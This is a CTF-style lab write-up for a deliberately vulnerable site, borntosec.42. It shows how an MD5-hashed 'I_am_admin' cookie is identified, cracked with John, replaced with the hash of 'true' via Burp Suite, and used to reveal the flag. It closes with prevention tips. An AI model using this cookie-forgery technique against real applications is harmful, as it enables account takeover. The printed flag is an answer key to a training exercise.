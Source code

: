 # Cookie attack - session hijacking
- involves stealing a user's cookie to gain unauthorized access to their account within an application
- by using the stolen cookie, an attacker can impersonate the legitimate user
- https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies

<b>keywords</b>: cookies<br>
<b>attacked site</b>: http://borntosec.42/index.php

## Exploit
We intercept the GET request using <code>Burp Suite</code>:
``` http
GET /index.php HTTP/1.1
Host: borntosec.42
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://borntosec.42/
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1
```
The cookie contains a hashed value. We use <code>hash-identifier</code> to determine the hashing algorithm used:
``` shell
└─$ hash-identifier                                  
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 68934a3e9455fa72420237eb05902327

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```
We use <code>John</code> to crack the hash:
``` shell
└─$ john cookie_hash.txt --format=Raw-MD5         
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
false            (?)     
1g 0:00:00:02 DONE 3/3 (2024-08-07 19:41) 0.4464g/s 4784Kp/s 4784Kc/s 4784KC/s falyn..fadds
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
The stored cookie value is 'false', so we create a new MD5 hashed value for 'true':
``` shell
└─$ echo -n "true" | md5sum
b326b5062b2f0e69046810717534cb09  -
```
We send this new cookie value via <code>Burp Suite</code> Repeater to access the site. A pop-up window then reveals the flag:
```
Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3
```

## Flag
df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3

## Exploit prevention
- set HttpOnly attribute on cookies to prevent users from accessing them
- regenerate session IDs
- implement session timeout
- use stronger algorithm to hash session cookies
